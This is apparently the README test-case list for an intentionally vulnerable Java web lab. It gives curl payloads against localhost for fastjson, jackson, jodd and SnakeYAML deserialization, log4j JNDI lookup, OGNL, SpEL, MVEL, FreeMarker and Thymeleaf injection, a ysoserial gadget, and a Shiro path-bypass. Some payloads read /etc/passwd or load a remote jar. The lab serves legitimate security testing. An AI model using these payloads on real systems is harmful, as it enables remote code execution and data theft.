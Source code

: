 ### 测试用例

1. 测试/actuator接口
2. 测试fastjson漏洞
   ```   
   curl 127.0.0.1:8080/fastjson/parse -d 'json={"@type":"org.apache.commons.proxy.provider.remoting.RmiProvider","host":"127.0.0.1",port:"1099","name":"Exploit"}'
   curl 127.0.0.1:8080/fastjson/parse -d 'json={"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://127.0.0.1:1389/Exploit","autoCommit":true}'
   ```
3. 测试 alwaysUseFullPath 认证绕过漏洞: http://rui0.cn/archives/1643
   * 直接访问 /shiro/auth 会提示认证失败
   * 使用 /shiro/no-auth/%2e%2e/auth 可以绕过认证
4. 测试ognl执行
   ```
   curl 127.0.0.1:8080/ognl/parse -d 'ognl=#a%3d(new java.lang.ProcessBuilder(new java.lang.String[]{"open", "/System/Applications/Calculator.app/"})).start()'
   ```
5. 测试spel执行
   ```
   curl 127.0.0.1:8080/spel/parse -d "spel=T(java.lang.Runtime).getRuntime().exec('open /System/Applications/Calculator.app')"
   ```
6. 测试log4j漏洞
   ```
   curl 127.0.0.1:8080/log4j -d 'log=${jndi:ldap://127.0.0.1:1099/a}'
   ```
7. 测试freemarker漏洞(JythonRuntime需要本地有class): https://tttang.com/archive/1412/
   ```
   curl 127.0.0.1:8080/freemarker/unsafe -d 'template=<#assign value%3d"freemarker.template.utility.JythonRuntime"?new()><@value>import os;os.system("open /System/Applications/Calculator.app")</@value>'
   curl 127.0.0.1:8080/freemarker/unsafe -d 'template=<#assign value%3d"freemarker.template.utility.Execute"?new()>$${value("open /System/Applications/Calculator.app")}'
   ```
8. 测试jndi lookup
   ```
   curl 127.0.0.1:8080/jndi/lookup -d 'url=ldap://127.0.0.1:1389/a'
   ```
9. 测试thymeleaf模板注入: https://github.com/veracode-research/spring-view-manipulation
   ```
   curl 'http://127.0.0.1:8080/thymeleaf/path?lang=__%24%7BT(java.lang.Runtime).getRuntime().exec(%27%6F%70%65%6E%20%2F%53%79%73%74%65%6D%2F%41%70%70%6C%69%63%61%74%69%6F%6E%73%2F%43%61%6C%63%75%6C%61%74%6F%72%2E%61%70%70%27)%7D__::.xx'
   ```
10. 测试readObject()
   ```
   ysoserial CommonsCollections6 "cp /etc/passwd /tmp" > test
   curl 127.0.0.1:8080/object/parse --data-binary @test -H 'Content-Type: text/plain'
   ```
11. 测试snake yaml漏洞
   ```
   curl 127.0.0.1:8080/snakeyaml/parse -d 'yaml=!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://127.0.0.1/payload.jar"]]]]'
   ```
12. 测试jackson反序列化
   ```
   curl 127.0.0.1:8080/jackson/parse -d 'json=["com.newrelic.agent.deps.ch.qos.logback.core.db.JNDIConnectionSource",{"jndiLocation":"ldap://127.0.0.1:1389/Exploit"}]'
   ```
13. 测试xstream反序列化
   ```
   curl 127.0.0.1:8080/xstream/parse -H 'Content-Type: text/xml' -d @test.xml
   ```
14. 测试jodd-json反序列化
   ```
   curl 127.0.0.1:8080/jodd/parse -d 'type=com.mchange.v2.c3p0.JndiRefForwardingDataSource&json={"jndiName":"ldap://127.0.0.1:1389/Exploit","loginTimeout":0}'
   ```
15. 测试mvel脚本
   ```
   curl 127.0.0.1:8080/mvel/parse -d 'mvel=Runtime.getRuntime().exec("cp /etc/passwd /tmp")'
   ```
